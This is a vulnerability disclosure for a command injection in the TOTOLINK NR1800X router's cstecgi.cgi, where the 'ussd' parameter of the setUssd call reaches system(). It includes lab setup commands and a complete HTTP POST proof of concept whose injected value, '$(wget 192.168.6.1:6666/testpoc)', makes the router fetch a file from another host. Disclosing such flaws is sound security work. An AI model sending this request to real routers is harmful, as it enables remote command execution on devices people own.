




# NR1800X Vulnerability

Vendor:TOTOLINK

Product:NR1800X

Version:9.1.0u.6279_b20210910	

Vulnerability: Command Injection

Download:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/225/ids/36.html

Author:Li Tengzheng


## Descriptions

We found a Command Injection vulnerability  in `cstecgi.cgi` , allows remote attackers to execute arbitrary OS commands from a crafted request:

<div  align="center"></div>

In  sub_41A68C function, it reads in a user-provided parameter `ussd` .

<div  align="center"></div>

As we can see ,the value of the `ussd`  is inserted into `v17`  using `snprintf`.

Finally,the command will be executed by  system().


## Proof of Concept (PoC)

Before starting the proof of concept (POC) verification, execute the following commands in the Ubuntu terminal:

`ip tuntap add dev tap0 mode tap`

`ip addr add 192.168.6.1/24 dev tap0`

`ip link set tap0 up`

`touch  testpoc`

`python3 -m  http.server 6666`

And within the QEMU virtual machine, run: `ifconfig eth0 192.168.6.2/24 up`


We set `ussd` as **$(wget  192.168.6.1:6666/testpoc)** , and the router will execute it,such as:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.6.2
Content-Length: 65
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://192.168.6.2
Referer: http://192.168.6.2/basic/index.html
Accept-Encoding: gzip, deflate, br
Cookie: SESSION_ID=2:1772681148:2
Connection: keep-alive

{"topicurl":"setUssd","ussd":"$(wget  192.168.6.1:6666/testpoc)"}
```

<div  align="center"></div>

## Result


As a result, we discovered that the wget command was executed in the Ubuntu terminal.

<div  align="center"></div>


